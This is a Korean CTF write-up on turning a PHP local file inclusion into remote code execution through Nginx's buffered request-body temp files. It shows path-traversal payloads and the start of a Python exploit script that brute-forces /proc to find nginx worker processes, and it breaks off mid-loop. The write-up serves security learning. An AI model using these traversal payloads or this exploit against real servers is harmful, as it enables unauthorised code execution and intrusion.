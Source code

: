 Dockerfile을 보면 `/readflag` 가 최상위 디렉토리에 존재한다.

![Untitled](writeup%202a6a0352afbf4628aae2573636fcb08f/Untitled.png)

`?page=../../../../../readflag`에 접근하면 readflag 파일을 읽을 수 있다.

ELF 바이너리라는 것을 알 수 있으며, 읽는 것이 아니라 실행하는 것이 문제의 목표다. 즉, RCE를 수행해야한다.

PHP LFI to RCE 라는 키워드로 조사하던 중 다음과 같은 글을 찾을 수 있었다.

[0xbb - PHP LFI with Nginx Assistance](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/)

글 내용은 다음과 같다.

Nginx는 클라이언트 본문 버퍼링 기능을 제공하는데, 이 기능은 클라이언트 본문(post에만 국한되지 않음)이 특정 임계값보다 큰 경우 임시 파일을 생성한다고 한다.

이를 이용하여 공격을 진행하는데, 클라이언트 본문(body)을 크게 업로드해서 Nginx가 `/var/lib/nginx/body/$X`와 같은 경로에 웹쉘을 생성하도록 한다.

다음으로 Nginx 관련 작업 수행하는 `pid`를 모두 추출하고 procfs를 통해 Nginx의 fd를 무차별 대입(brute force)해서 body 파일을 include한다.

마지막으로 `../../`를 사용하여 include의 readlink 및 stat 문제를 우회한다.

### exploit

```python
#!/usr/bin/env python3
import sys, threading, requests

# exploit PHP local file inclusion (LFI) via nginx's client body buffering assistance
# see https://bierbaumer.net/security/php-lfi-with-nginx-assistance/ for details

URL = f'http://{sys.argv[1]}:{sys.argv[2]}/'

# find nginx worker processes 
r  = requests.get(URL, params={
    'page': '../../../../../../../proc/cpuinfo'
})
cpus = r.text.count('processor')

r  = requests.get(URL, params={
    'page': '../../../../../../../proc/sys/kernel/pid_max'
})
pid_max = int(r.text)
print(f'[*] cpus: {cpus}; pid_max: {pid_max}')

nginx_workers = []
for pid in range(pid_max):
    r  = requests.get(URL, params={
        'page': f'../../../../../../../proc/{pid}/cmdline'
    })

    if b'nginx: worker process' in r.content:
        print(f'[*] nginx worker found: {pid}')

        nginx_workers.append(pid)
        if len(nginx_workers) >= cpus:
```